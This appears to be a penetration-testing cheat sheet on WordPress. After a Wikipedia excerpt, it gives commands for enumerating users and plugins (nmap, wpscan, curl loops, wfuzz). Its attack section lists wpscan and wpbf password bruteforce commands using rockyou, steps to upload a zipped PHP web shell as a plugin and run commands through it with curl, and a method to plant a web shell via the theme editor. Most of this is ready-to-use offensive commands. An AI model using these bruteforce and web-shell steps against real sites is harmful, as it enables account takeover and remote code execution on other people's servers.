# WordPress

## WordPress CMS

**WordPress** (**WP**, **WordPress.org**) is a [free and open-source](https://en.wikipedia.org/wiki/Free\_and\_open-source\_software) [content management system](https://en.wikipedia.org/wiki/Content\_management\_system) (CMS) written in [PHP](https://en.wikipedia.org/wiki/PHP)[\[4\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-4) and paired with a [MySQL](https://en.wikipedia.org/wiki/MySQL) or [MariaDB](https://en.wikipedia.org/wiki/MariaDB) database. Features include a [plugin architecture](https://en.wikipedia.org/wiki/Plug-in\_\(computing\)) and a [template system](https://en.wikipedia.org/wiki/Web\_template\_system), referred to within WordPress as Themes. WordPress was originally created as a [blog-publishing system](https://en.wikipedia.org/wiki/Blog) but has evolved to support other web content types including more traditional [mailing lists](https://en.wikipedia.org/wiki/Electronic\_mailing\_list) and [forums](https://en.wikipedia.org/wiki/Internet\_forum), media galleries, membership sites, [learning management systems](https://en.wikipedia.org/wiki/Learning\_management\_system) (LMS) and [online stores](https://en.wikipedia.org/wiki/Shopping\_cart\_software). WordPress is used by 41.4% of the top 10 million websites as of May 2021,[\[5\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-Usage\_of\_content\_management\_systems\_for\_websites-5) WordPress is one of the most popular content management system solutions in use.[\[6\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-6) WordPress has also been used for other application domains, such as [pervasive display systems](https://en.wikipedia.org/wiki/Pervasive\_display\_systems) (PDS).[\[7\]](https://en.wikipedia.org/wiki/WordPress#cite\_note-7)

The text above was extracted from [Wikipedia](https://en.wikipedia.org/wiki/WordPress).

## WordPress Locations

These are the most commong wordpress locations:

* /wp-admin
* /directory\_name/wp-admin

## Enumerating WordPress

WordPress Key Points:

* Tools > Site Health > Info > Server
* Tools > Site Health > Info > Database
* Plugins are written in PHP
* Upload Plugins with PHP Reverse Shell

### Nmap

We can nmap nse scripts:

```
sudo nmap --script http-wordpress-enum target.xyz
```

### WPScan

Before starting a wpscan you should update it:

```
wpscan --update
```

To startup, we can use the “non-intrusive” default scan using only the `--url` parameter to determine the WordPress version installed and some other information about the installation including PHP version, potential vulnerabilities, and interesting files, such as robots.txt files which could contain interesting directory or file references

```
wpscan --url http://target
```

Enumerate users:

```
wpscan --url http://target --enumerate u
```

Enumerate plugins:

```
wpscan --url http://target --enumerate p
```

Enumerate credentails with random-user-agent header:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

Enumerate and store the output:

```
wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log
```

Helps identify issues on a Wordpress page:

```
wpscan --url http://10.10.140.124/wordpress/ -t 40 --detection-mode mixed --enumerate ap --plugins-detection aggressive 
```

### Curl

We can enumerate users with curl and if the HTTP status code from the response is 301 then it means that the user exists:

```
 curl -s -o /dev/null -w "%{http_code}\n" http://target/author/username
```

To automate this process we can create a loop:

```bash
for i in $(cat users.txt); \ do curl -s -o /dev/null -w "%{http_code}:$i\n" \ http://target/author/$i; done
```

An alternative method to enumerate users without a wordlist can be the following (author=1,author=2, etc):

```bash
 for i in {1..5}; \ do curl -L -s http://target/?author=$i \ | grep -iPo '(?<=<title>)(.*)(?=</title>)' \ | cut -f1 -d" " |grep -v "Page"; done
```

### Plecost

Enumerate plugins:

```
plecost -i /usr/share/plecost/wp_plugin_list.txt http://target
```

### Enumerating Plugins

SecLists has a good wordlist for fuzzing for plugins called `wp-plugins.fuzz.txt`

```
wfuzz -c -t 200 --hc=404 -w wp-plugins.fuzz.txt http://10.10.10.88/webservices/wp/FUZZ
```

We can wpscan to enumerate plugins:

```
 wpscan --url http://target --enumerate p
```

## Attacking WordPress

### Bruteforce

#### wpscan

We can supply a wordlist of passwords, and the “--username” parameter with a value of “admin” and if we’re lucky, we may be able to get access to the administrative interface:

```
wpscan --url http://target --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

General Bruteforce with random-user-agent:

```
wpscan --url http://target --usernames users.txt -P rockyou.txt random-user-agent
```

#### **wpbf**

{% embed url="https://github.com/atarantini/wpbf" %}

Bruteforce with username:

```
 python wpbf.py -w passwords.txt -u admin http://target
```

### Plugins WebShell

First, find a web shell and compress it into a zip file:

```
kali@kali:~$ cd /usr/share/seclists/Web-Shells/WordPress
kali@kali:/usr/share/seclists/Web-Shells/WordPress$ sudo zip plugin-shell.zip plugin-shell.php
adding: plugin-shell.php (deflated 58%)
```

Then follow these steps:

Plugins -> Add New -> Upload Plugin -> Browse -> plugin-shell.zip -> Open -> Install Now ->

After installing the plugins, visit the uploaded and installed plugin directory/file and execute it via the browser, burp, curl or anything similar:

```
kali@kali:~$ curl http://10.10.10.10/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
www-data
```

### Theme RCE

WordPress > Appearance > Theme Editor > Theme Header then insert a webshell.

![Appearance -> Theme Editor -> Twenty Twenty -> Theme Files -> 404.php](../../../.gitbook/assets/wordpress-twenty-twenty-404-php-webshell.png)
